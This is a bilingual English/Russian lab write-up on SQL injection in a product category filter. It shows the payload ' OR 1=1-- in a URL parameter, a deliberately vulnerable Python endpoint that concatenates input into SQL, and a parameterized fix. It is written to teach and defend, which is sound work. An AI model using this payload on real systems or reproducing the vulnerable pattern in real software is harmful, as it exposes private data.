

# SQL Injection — Retrieve Hidden Data / Получение скрытых данных

## Object / Объект

**EN:** Exploiting an SQL injection vulnerability to access hidden application data by manipulating URL parameters.

**RU:** Использование уязвимости SQL Injection для доступа к скрытым данным приложения путём манипулирования параметрами URL.

---

## Initial analysis / Первоначальный анализ

**EN:** This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

**RU:** В этой лабораторной работе присутствует уязвимость типа «SQL-инъекция» в фильтре категорий товаров. Когда пользователь выбирает категорию, приложение выполняет SQL-запрос, подобный следующему:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1

```

## Как работает полезная нагрузка

Полезная нагрузка представляет из себя 

## Exploit 

Payload:
```sql
' OR 1=1--
```

```txt
/filter?category=' OR 1=1--
```

## Запрос представляет из себя:

```sql
SELECT * FROM products WHERE category = '' OR 1=1--' AND released = 1
```

```sql
OR 1=1
```

всегда возвращает истину. Это заставляет банк возвращать все записи в таблице. ---


```sql
SELECT * FROM products 
WHERE category = '' OR 1=1--'
```

добавление этой нагрузки в запрос и добавление в конце -- делает так, что все условия после игнорируются.

## Изначальный запрос
```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
Превращается в 

```sql
SELECT * FROM products 
WHERE category = '' OR 1=1--'
```

## Итог анализа:

Уязвиомсть позволяет обойти исходный фильтр и посмотреть скрытые продукты


## Проблема и последствия
* Несанкционированное доступ к данным
* ВОзможное получение паролей
* Просмотр скрытых даных
---

## Решение

* Использование ORM, а не голых SQL запросов
* Параметрезированные запросы, вместо конкатенации 
* Валидация вводных данных
* Пересмотр прав пользователя на запросы

## Пример такого запроса

В этом примере категория полученная из URL вшивается прямо в запрос целиком

```python
@app.get("/bad/products")
def products_bad(category: str = ""):
    sql = text(f"SELECT * FROM products WHERE category = '{category}' AND released = 1")
    with engine.connect() as conn:
        return [dict(r) for r in conn.execute(sql).mappings().all()]

```
В итоге, если мы подставляем сюда инъецию, то запрос превращается из 
```sql
"SELECT * FROM products WHERE category = '{category}' AND released = 1"
```
В

```sql
"SELECT * FROM products WHERE category = 'OR 1=1-- AND released = 1"
```

И все что после -- становится комментарием

## Пример хорошего запроса

```python
@app.get("/good/products")
def products_good(category: str = ""):
    sql = text("SELECT * FROM products WHERE category = :cat AND released = 1")
    with engine.connect() as conn:
        return [dict(r) for r in conn.execute(sql, {"cat": category}).mappings().all()]
```
payload не попадает в текст запроса → -- остаётся двумя дефисами внутри строки → БД сравнивает category с целой строкой ' OR 1=1--, включая эти дефисы, и ничего не находит.

Эта лаборатория на практике показала, как объединение пользовательского ввода непосредственно в запросы SQL может полностью скомпрометировать приложение. Это также помогло лучше понять логику полезной нагрузки, а не просто копировать готовые команды.